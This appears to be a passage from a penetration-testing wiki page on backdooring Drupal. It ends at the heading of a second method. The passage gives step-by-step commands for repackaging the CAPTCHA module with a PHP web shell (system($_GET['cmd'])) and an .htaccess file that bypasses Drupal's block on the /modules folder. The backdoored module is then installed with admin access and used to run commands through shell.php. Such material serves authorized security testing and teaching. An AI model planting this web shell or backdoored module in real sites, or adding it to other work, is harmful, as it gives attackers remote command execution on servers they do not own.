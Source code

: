 ## Backdoored Module

{% hint style="warning" %}
In current versions it's no longer possible to install plugins by only having access to the web after the default installation.
{% endhint %}

A backdoored module can be created by **adding a shell to an existing module**. Modules can be found on the drupal.org website. Let's pick a module such as [CAPTCHA](https://www.drupal.org/project/captcha). Scroll down and copy the link for the tar.gz [archive](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Download the archive and extract its contents.

```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```

* Create a **PHP web shell** with the contents:

```php
<?php
system($_GET["cmd"]);
?>
```

* Next, we need to create a **`.htaccess`** file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the **`/modules`** folder.

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

* The configuration above will apply rules for the / folder when we request a file in /modules. Copy both of these files to the captcha folder and create an archive.

```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```

* Assuming we have **administrative access** to the website, click on **`Manage`** and then **`Extend`** on the sidebar. Next, click on the **`+ Install new module`** button, and we will be taken to the install page, such as `http://drupal-site.local/admin/modules/install` Browse to the backdoored Captcha archive and click **`Install`**.
* Once the installation succeeds, browse to **`/modules/captcha/shell.php`** to execute commands.

## Backdooring Drupal with Configuration synchronization <a href="#backdooring-drupal" id="backdooring-drupal"></a>

**Post shared by** [**Coiffeur0x90**](https://twitter.com/Coiffeur0x90)

### Part 1 (activation of _Media_ and _Media Library_)
